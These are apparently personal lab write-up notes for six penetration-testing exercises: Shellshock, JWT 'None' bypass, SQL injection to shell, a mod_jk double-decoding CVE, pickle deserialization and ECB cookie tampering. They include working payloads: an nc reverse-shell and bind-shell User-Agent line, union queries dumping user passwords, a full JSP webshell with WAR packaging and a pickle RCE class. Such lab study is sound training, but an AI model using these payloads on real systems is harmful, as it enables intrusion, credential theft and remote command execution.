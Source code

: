 # White badge

## 01 - shelshock vuln

chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
https://ptl-392ad7d5-0e9e0682.libcurl.so/

exploit:
- run bash commands via the User-agent on a http request
- `() { :;}; $(</etc/passwd)`
- `() { :;}; /usr/bin/nc $IP_ADDR $PORT -e /bin/bash`

notes:
- `$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80`
- `User-Agent: () { :;}; echo $(</etc/passwd)`Aaa

## 02 - vuln in jwt lib

chl:
retrieve a key

url:
http://ptl-d2babfc9-921be1b6.libcurl.so/

notes:
- JWT provides a way to validate the signature using a `None` algorithm which can be defined by a client (attacker), the signature has to be empty: `$HEADER.$PAYLOAD.`
- on this ex, the jwt is stored in cookies

## 03 - from sqli to shell

chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
http://ptl-f99df351-3bdd4c8f.libcurl.so/

notes:
- bugs found: sqli, 
- find number of columns: `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=1 union select 1,2,3,4` or `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=1 order by 4`
- check db version: `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=1 union select 1,@@version,3,4`, also `user()`, `database()`
- list tables: `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=3 union select 1,table_name,3,4 from information_schema.tables`, also `column_name` from `.columns`
- get columns of `users` table: `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=3 union select 1,column_name,3,4 from information_schema.columns where table_name="users"`a
- getting passwords: `http://ptl-f99df351-3bdd4c8f.libcurl.so/cat.php?id=3 union select 1,concat(login,":::",password),3,4 from users`a
- after login to admin, upload a simple php shell: `http://ptl-f99df351-3bdd4c8f.libcurl.so/admin/uploads/abc.php3?cmd=whoami`

## 04 - Solving CVE-2007-1860: mod_jk double-decoding

chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
http://ptl-b3f95ebe-a6c6c73f.libcurl.so/

notes:
- it uses tomcat 7 with CSRF protection in the manager (JSESSIONID)
- tomcat+mod_jk are vulnerable to CV-2007-1860, which allows `../` as  double url encoding `%252E%252E/%252E%252E/`

exploit:
- tomcat admin manager with default creds found: ptl-b3f95ebe-a6c6c73f.libcurl.so/examples/jsp/%252E%252E/%252E%252E/manager/html (admin:)
- in order to upload the webshell via the tomcat manager, the `form action` html has to be modified in order to upload to `/examples/jsp/%252E%252E/%252E%252E/......`
- the webshell app  can be found at http://ptl-b3f95ebe-a6c6c73f.libcurl.so/examples/jsp/%252E%252E/%252E%252E/webshell/
- upload a jsp shell

the jsp shell file
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
#Creating the war file
mkdir webshell; cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```

## 05 - pickle code execution

chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-be2b93ba-f7795a72.libcurl.so/

notes:
- cpickle vuln works on python2 
- there is a web server waiting as input a base64 text that contains cpickle'd obj, this obj can be a shell :)

exploit:
- generate the shell obj with cpickle

```python
import os
import base64
#import _pickle as cPickle
import cPickle

class Shell(object):
    def __reduce__(self):
        return (os.system,("/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509",))

dump = cPickle.dumps(Shell())
print(base64.b64encode(dump))
```
- inject the resultant b64 output to the input service (a cookie in the app)

## 06 breaking ECB encryption

chl: get the code

url: http://ptl-25840c6c-41b00aa7.libcurl.so

notes:
- ecb works by creating blocks of code, each with a encryption key. Each block is independent and "removable"
- the enc is being applied in the cookies which are modifiable on burpsuite
